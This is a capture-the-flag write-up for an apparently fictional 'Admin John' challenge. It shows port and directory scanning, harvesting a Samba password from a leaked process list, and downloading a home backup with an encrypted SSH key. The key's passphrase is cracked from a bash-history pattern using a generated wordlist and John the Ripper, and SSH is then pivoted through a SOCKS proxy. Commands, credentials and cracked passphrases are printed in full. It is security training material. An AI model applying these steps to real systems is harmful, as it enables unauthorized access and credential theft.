 Security conerns: Admin John
======================================


## Task
Hi, TCC-CSIRT analyst,

please check if any inappropriate services are running on the workstation john.admins.cypherfix.tcc. We know that this workstation belongs to an administrator who likes to experiment on his own machine.

## Solution

You can do nothing wrong with nmap, so scan all ports on the workstation. There is open port 22 (SSH), 80 (apache) and 23000. Port 23000 is weird, it's possible to open it but it returns nothing, nmap with scan service return nothing... So, we can start with apache. Browser returns page "Hello world in PHP." No default page, probably there is running php. Enumeration with dirb return nothing interesting... but, there is PHP. So let's try it again with .php extension:

```
# dirb http://john.admins.cypherfix.tcc -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct 29 11:54:54 2024
URL_BASE: http://john.admins.cypherfix.tcc/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://john.admins.cypherfix.tcc/ ----
+ http://john.admins.cypherfix.tcc/environment.php (CODE:200|SIZE:3179)                                                                                        
+ http://john.admins.cypherfix.tcc/index.php (CODE:200|SIZE:28)
```

Interesting, we've discovered environment.php. On this page there are some statistics of the system and running processes. Running processes give us some answers. First, now we know what port 23000. There is opened SSH connection to host 10.99.24.100 with user backuper and option -D. Which means that on port 23000 we have SOCKS proxy: if we use SOCKS proxy client on this port, our connection will be made from 10.99.24.100 host.

Second, if we monitor process list some time, we find out this process:

```
smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1730217601.tgz backup-home.tgz
```

So it means that on host 10.99.24.100 is running samba server, we have credentials for it and also on this share will be some backup from workstation. Note that I have very great luck as the smbclient process was running when I opened web page for first time. I'm not sure when I will try to refresh it for ~10 minuts if I didn't see that process with credentials :-)

So, now run smbclient and download backup-home.tgz. If we try to connect to workstation with SSH we find out that only login with SSH key is permitted. If we extract home backup which we now have, we find private SSH key there. Encrypted. Also we can look on authorized_key which confirms, that we can login with this key but only from 10.99.24.100 host. So, change permission on id_rsa key to 600 so ssh can use it. Install proxychains and in /etc/proxychains.conf append line "socks5 10.99.24.101 23000". Now we can open SSH connection with this command: proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa

Only missing piece is password for private key. So what is the most exciting file in every home directory? .bash_history for sure :-) There are two interesting lines:

```
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

Second command change passphrase for key. First one seems like password. This password is not working anymore. But usually, when user has to change password and password had number on the end, you can bet, that only number in password was changed :-) So generate password list:

```
for i in $(seq 10000); do printf "Enterprise%04d\n" $i; done > list.txt
```

And crack it with John The Ripper (note that hashcat should also work and with mask shouldn't be needed generating password list but on my WS for some reason hashcat won't recognize SSH keyfile):

```
ssh2john id_rsa > hash
john --wordlist=./list.txt hash
john --show hash  
id_rsa:Enterprise2215
```

And now just login with proxychains and SSH:

```
# proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.99.24.101:23000  ...  10.99.24.101:22  ...  OK
Enter passphrase for key 'id_rsa': 
FLAG{sIej-5d9a-aIbh-v4qH}
```
